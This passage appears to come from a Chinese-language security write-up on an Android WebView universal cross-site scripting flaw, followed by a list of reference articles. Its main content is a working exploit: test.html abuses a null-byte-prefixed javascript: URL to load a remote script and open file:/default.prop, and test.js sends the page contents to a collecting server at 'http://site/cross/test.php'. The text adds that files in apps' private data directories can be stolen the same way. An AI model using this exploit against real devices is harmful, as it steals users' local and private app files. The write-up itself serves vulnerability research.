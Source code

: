 2、窃取本地文件


test.html

```javascript

<button onclick="iframe.src='http://notfound/'">x</button><br>
<button onclick="exploit1()">Get local file!</button><br>
<script>
function exploit1() {
    window.open('\u0000javascript:document.body.innerHTML="<script/src=http://site/test.js></scr"+"ipt><iframe src=file:/default.prop onload=exploit2()  style=width:100%;height:1000px; name=test2></iframe>";','test');
}
</script>
<iframe src="http://m.baidu.com/" id="iframe" style="width:100%;height:1000px;" name="test"></iframe>
```

test.js

```javascript
var flag = 0;
function exploit2(){
  if(flag) {return}
 window.open('\u0000javascript:location.replace("http://site/cross/test.php?test="+escape(document.body.innerHTML))','test2');
  flag = 1;
}
```

服务端接收到android的default.prop文件内容。也可以窃取相应app私有目录/data/data/packagename/下文件

![](img/local_info.png)
## 0x06 参考 

[gongguang《Android Webview UXSS 漏洞攻防》](http://security.tencent.com/index.php/blog/msg/70)

[riusksk《WebView跨源攻击分析》](http://blogs.360.cn/360mobile/2014/09/22/webview%E8%B7%A8%E6%BA%90%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90/)

[RAyH4c（茄子）《细数安卓WebView的那些神洞》](http://static.wooyun.org/upload/summit-wooyun-RAyH4c.zip)

[http://zone.wooyun.org/content/15792](http://zone.wooyun.org/content/15792)